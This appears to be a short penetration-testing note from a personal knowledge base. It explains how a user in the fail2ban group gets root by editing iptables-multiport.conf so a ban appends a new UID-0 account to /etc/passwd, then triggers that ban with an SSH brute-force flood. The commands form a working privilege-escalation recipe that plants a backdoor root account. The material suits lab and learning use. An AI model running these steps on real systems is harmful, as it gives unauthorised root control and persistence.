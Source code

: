 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Running `id` shows we are part of fail2ban group

![[Pasted image 20221110103107.png]]

Find the iptables-multiport.conf file:
```bash - target
find / -type f -iname iptables-multiport.conf 2> /dev/null
```

Verify that we have read / write privs:
```bash - kali
ls -lah /etc/fail2ban/action.d/iptables-multiport.conf
```

```bash - target
nano /etc/fail2ban/action.d/iptables-multiport.conf
```

[[17._passwd file]]

```bash - target
actionban = echo "newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash" >> /etc/passwd
```

![[Pasted image 20220403120429.png]]

Now force the bad by flooding ssh requests:
![[TechLexicon/Penetration Testing/Reference/7._Tools/Hydra#Hydra against SSH]]

```bash - target
su newroot
```

```bash - target
password
```
